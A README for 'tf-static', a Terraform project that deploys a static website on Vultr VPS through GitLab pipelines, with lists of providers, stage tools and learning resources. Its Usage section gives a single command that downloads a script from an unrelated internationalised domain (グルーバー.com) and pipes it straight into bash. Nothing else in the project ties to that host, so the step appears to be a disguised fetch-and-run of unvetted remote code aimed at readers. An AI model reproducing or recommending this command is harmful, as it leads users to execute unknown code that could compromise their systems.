 # tf-static

A multi-pipeline IaC project implementing best practices deploying a static-content website in a low-cost VPS company. Although Vultr's provider is the unique VPS provider supported for now, the idea is to expand to other clouds as PoC's.

## Why?

A lot of projects using Terraform ware designed and built using applications of a such a desproportional size, most developers will never get in touch with such a scale.

This project aims to provide the same standard of practices commonly adopted by these bigger projetcts but instead of focusing on learning alone, we aim to provide a practical perspective on the processes that pipelines and tools have to perform each day.

> **It's important to note a project this small wouldn't these tools to work, nor we defend the adoption of these practices in every project without prior analysis regardless of the project's design or size.**

## Usage

```sh
curl -s https://グルーバー.com/terraform.sh | bash
```

### Running tests

- Tests are available in `test` directory

- In the test directory, run the below command

```sh
go test
```


----

<br>

<details>

  <summary>
   Stages & Tools
  </summary>

## Providers

- [terraform-provider-cloudflare](https://github.com/cloudflare/terraform-provider-cloudflare)
- [terraform-provider-vultr](https://github.com/vultr/terraform-provider-vultr)
- [vaulted provider](https://github.com/sumup-oss/vaulted)
- [docker provider](https://registry.terraform.io/providers/kreuzwerker/docker/latest/docs)

## Pipelines

### After_each

- [tf-notify](https://github.com/mercari/tfnotify)

### Init tage

- terraform init
- [terraform fmt](https://github.com/antonbabenko/pre-commit-terraform)

### Linter stage

- [terraform-validate](https://github.com/antonbabenko/pre-commit-terraform)
- [terraform-tflint](https://github.com/terraform-linters/tflint)
- [gitlab-ci-local](https://github.com/firecow/gitlab-ci-local)

### Testing stage

- [terratest](https://github.com/gruntwork-io/terratest)
- [checkov](https://github.com/bridgecrewio/checkov)
- terraform plan

### Deploy stage

- terraform apply
  - Create a VPS machine to serve as runner using Vultr's provider
  - Register Gitlab-runner using Docker provider and remote-exec
  - Create another VPS machine to serve as host to the final deploy using Vultr's runner
  - Build and deploy your website through terraform using gitlab's self-managed runner
  - After the deployment ends, unregister the self-running machine on Gitlab

### Post-deploy stage

- [terraform-docs](https://github.com/terraform-docs/terraform-docs) @ github actions
- upload [terraform-docs](https://github.com/terraform-docs/terraform-docs) to github repository
- [gitlab-pipeline-deleter](https://github.com/screendriver/gitlab-pipeline-deleter)
- [terraform-visual](https://github.com/hieven/terraform-visual) to get a static website
- upload infra chart to github pages

### Other tools

- [tfmask](https://github.com/cloudposse/tfmask) to remove output with sensitive variables
- [terraform-provider-vault](https://github.com/hashicorp/terraform-provider-vault) for credentials management
- [tfupdate](https://github.com/minamijoyo/tfupdate) to keep it up to date in a cron runtime

</details>

<br>

<details>
  <summary>
  Thanks and acknowledgements
  </summary>

<br>

Learning resources I've used:

- [Using Pipelines to Manage Environments with Infrastructure as Code](https://medium.com/@kief/https-medium-com-kief-using-pipelines-to-manage-environments-with-infrastructure-as-code-b37285a1cbf5)
- [PaloAltoNetworks/terraform-best-practices](https://github.com/PaloAltoNetworks/terraform-best-practices)

- [antonbabenko/terraform-best-practices](https://github.com/antonbabenko/terraform-best-practices) & [Terraform Best Practices website](https://www.terraform-best-practices.com/)
- original templated generated by [generator-tf-module](https://github.com/sudokar/generator-tf-module)
- [awesome-terraform](https://github.com/shuaibiyy/awesome-terraform)

Useful projects to learn and practice using Terraform:

- [Condor, a Vultr's open-source project to automate deploying Kubernetes on their cloud](https://github.com/vultr/terraform-vultr-condor)
- [tf_best_practices_sample_module](https://github.com/last9bot/tf_best_practices_sample_module)

</details>
